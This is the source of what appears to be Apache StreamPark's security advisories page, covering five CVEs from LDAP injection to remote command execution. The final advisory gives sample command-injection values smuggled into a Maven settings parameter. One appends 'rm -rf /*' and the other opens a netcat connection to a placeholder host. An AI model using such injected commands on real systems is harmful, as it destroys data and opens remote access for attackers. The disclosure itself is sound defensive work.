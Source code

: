 ```yaml
---
title: Apache StreamPark (Incubating) security advisories
description: Security information for Apache StreamPark (Incubating)
layout: single
---
```


# Reporting

Do you want disclose a potential security issue for Apache StreamPark (Incubating)? Send your report to the [Apache Security Team](mailto:security@apache.org).

# Advisories

This section is experimental: it provides advisories since 2023 and may lag behind the official CVE publications. If you have any feedback on how you would like this data to be provided, you are welcome to reach out on our public [mailinglist](/mailinglist) or privately on [security@apache.org](mailto:security@apache.org)
{.bg-warning}

## LDAP Injection Vulnerability ## { #CVE-2022-45801 }

CVE-2022-45801 [\[CVE json\]](./CVE-2022-45801.cve.json)

_Last updated: 2023-05-01T14:50:06.013Z_

### Affected

* Apache StreamPark (incubating) from 1.0.0 before 2.0.0


### Description

<div><div><span style="background-color: rgb(255, 255, 255);">Apache StreamPark 1.0.0 to 2.0.0 have a LDAP injection vulnerability.</span><br><span style="background-color: rgb(255, 255, 255);">LDAP Injection is an attack used to exploit web based applications</span><br><span style="background-color: rgb(255, 255, 255);">that construct LDAP statements based on user input. When an</span><br><span style="background-color: rgb(255, 255, 255);">application fails to properly sanitize user input, it's possible to</span><br><span style="background-color: rgb(255, 255, 255);">modify LDAP statements through techniques similar to SQL Injection.</span><br><span style="background-color: rgb(255, 255, 255);">LDAP injection attacks could result in the granting of permissions to</span><br><span style="background-color: rgb(255, 255, 255);">unauthorized queries, and content modification inside the LDAP tree.</span><br><span style="background-color: rgb(255, 255, 255);">This risk may only occur when the user logs in with ldap, and the user</span><br><span style="background-color: rgb(255, 255, 255);">name and password login will not be affected, Users of the affected</span><br><span style="background-color: rgb(255, 255, 255);">versions should upgrade to Apache StreamPark 2.0.0 or later.</span><br><br></div></div><br>

### References
* https://lists.apache.org/thread/xbkwwpkp3n2rs2wcxg8l26mhsftxwwr9


## Upload any file to any directory ## { #CVE-2022-45802 }

CVE-2022-45802 [\[CVE json\]](./CVE-2022-45802.cve.json)

_Last updated: 2023-06-26T10:23:44.595Z_

### Affected

* Apache StreamPark (incubating) from 1.0.0 before 2.0.0


### Description

<div><div><span style="background-color: var(--wht);">Streampark allows any users to upload a jar as application, but there is no mandatory verification of the uploaded file type, causing users to upload some high-risk files, and may upload them to any directory,&nbsp;</span><span style="background-color: var(--wht);">Users of the affected versions should upgrade to Apache StreamPark 2.0.0 or later</span></div><br></div><br><br>

### References
* https://lists.apache.org/thread/thwl1v2h6r3c21x1qwff08o57qzjnst6


## Logic error causing any account reset ## { #CVE-2022-46365 }

CVE-2022-46365 [\[CVE json\]](./CVE-2022-46365.cve.json)

_Last updated: 2023-05-01T14:53:47.030Z_

### Affected

* Apache StreamPark (incubating) from 1.0.0 before 2.0.0


### Description

<span style="background-color: rgb(255, 255, 255);"><span style="background-color: rgb(255, 255, 255);"><div><div>Apache StreamPark 1.0.0 <span style="background-color: rgb(255, 255, 255);">before</span> 2.0.0 When the user successfully logs in, to modify his profile, the username will be passed to the server-layer&nbsp;as a parameter, but not verified whether the user name is the currently logged user and whether the user is legal, This will allow malicious attackers to send any username to modify and reset the account,&nbsp;<span style="background-color: rgb(255, 255, 255);">Users of the affected&nbsp;</span><span style="background-color: rgb(255, 255, 255);">versions should upgrade to Apache StreamPark 2.0.0 or later.</span></div></div></span></span><br>

### References
* https://lists.apache.org/thread/f68lcwrp8pcdc4yrbpcm8j7m0f5mjn7h


## Authenticated system users could trigger SQL injection vulnerability ## { #CVE-2023-30867 }

CVE-2023-30867 [\[CVE json\]](./CVE-2023-30867.cve.json)

_Last updated: 2023-12-15T12:13:59.544Z_

### Affected

* Apache StreamPark (incubating) from 2.0.0 before 2.1.2


### Description

<div><span style="background-color: var(--wht);">In the Streampark platform, when users log in to the system and use certain features, some pages provide a name-based fuzzy search, such as job names, role names, etc. The sql syntax :select * from table where jobName like '%jobName%'. However, the jobName field may receive illegal parameters, leading to SQL injection. This could potentially result in information leakage.</span><div><span style="background-color: var(--wht);"><br></span></div><br><div>Mitigation:</div><div><br></div><span style="background-color: rgb(255, 255, 255);">Users are recommended to upgrade to version 2.1.2, which fixes the issue.</span><br><br></div><br><p></p>

### References
* https://lists.apache.org/thread/bhdzh6hnh04yyf3g203bbyvxryd720o2


## Authenticated system users could trigger remote command execution ## { #CVE-2023-49898 }

CVE-2023-49898 [\[CVE json\]](./CVE-2023-49898.cve.json)

_Last updated: 2023-12-15T12:13:22.953Z_

### Affected

* Apache StreamPark (incubating) from 2.0.0 before 2.1.2


### Description

<div>In streampark, there is a project module that integrates Maven's compilation capability. However, there is no check on the compilation parameters of Maven. allowing attackers to insert commands for remote command execution, The prerequisite for a successful attack is that the user needs to log in to the streampark system and have system-level permissions. Generally, only users of that system have the authorization to log in, and users would not manually input a dangerous operation command. Therefore, the risk level of this vulnerability is very low.<br><br><div>Mitigation:<br><br></div>all users&nbsp;<span style="background-color: var(--wht);">should upgrade to 2.1.2</span><div><br></div><br><div>Example:<br><br><div><p></p><div>##You can customize the splicing method according to the compilation situation of the project, mvn compilation results use &amp;&amp;, compilation failure use "||" or "&amp;&amp;":<br><br><span style="background-color: var(--wht);">/usr/share/java/maven-3/conf/settings.xml || rm -rf /*</span><br></div><p></p></div></div><div><div>/usr/share/java/maven-3/conf/settings.xml &amp;&amp; nohup nc x.x.x.x 8899 &amp;</div><br></div></div><p></p>

### References
* https://lists.apache.org/thread/qj99c03r4td35f8gbxq084b8qmv2fyr3
